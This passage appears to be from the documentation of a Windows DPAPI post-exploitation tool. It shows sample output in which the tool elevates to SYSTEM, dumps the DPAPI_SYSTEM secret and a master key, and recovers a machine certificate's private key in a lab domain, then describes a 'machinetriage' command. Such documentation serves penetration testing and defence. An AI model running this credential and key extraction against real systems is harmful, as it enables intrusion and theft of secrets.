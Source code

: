 
    [*] Action: Certificate Triage
    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3


    [*] SYSTEM master key cache:

    {f12f57e1-dd41-4daa-88f1-37a64034c7e9}:3AEB121ECF2...(snip)...


    [*] Triaging System Certificates


    Folder       : C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys

      File               : 9377cea385fa1e5bf7815ee2024d0eea_6c712ef3-1467-4f96-bb5c-6737ba66cfb0

        Provider GUID    : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
        Master Key GUID  : {f12f57e1-dd41-4daa-88f1-37a64034c7e9}
        Description      : CryptoAPI Private Key
        algCrypt         : CALG_3DES (keyLen 192)
        algHash          : CALG_SHA (32772)
        Salt             : aa8c9e4849455660fc5fc96589f3e40e
        HMAC             : 9138559ef30fbd70808dca2c1ed02a29
        Unique Name      : te-Machine-50500b00-fddb-4a0d-8aa6-d73404473650

        Thumbprint       : A82ED8207DF6BC16BB65BF6A91E582263E217A4A
        Issuer           : CN=theshire-DC-CA, DC=theshire, DC=local
        Subject          : CN=dev.theshire.local
        Valid Date       : 2/22/2021 3:50:43 PM
        Expiry Date      : 2/22/2022 3:50:43 PM
        Enhanced Key Usages:
            Client Authentication (1.3.6.1.5.5.7.3.2)
             [!] Certificate is used for client auth!
            Server Authentication (1.3.6.1.5.5.7.3.1)

        [*] Private key file 9377cea385fa1e5bf7815ee2024d0eea_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered:

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAzRX2ipgM1t9Et4KoP...(snip)...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIFOjCCBCKgAwIBAgITVQAAAJqDK8j15...(snip)...
    -----END CERTIFICATE-----


#### machinetriage

The **machinetriage** command runs the user [machinecredentials](#machinecredentials), [machinevaults](#machinevaults), and [certificates /machine](#certificates--machine) commands.


### Misc
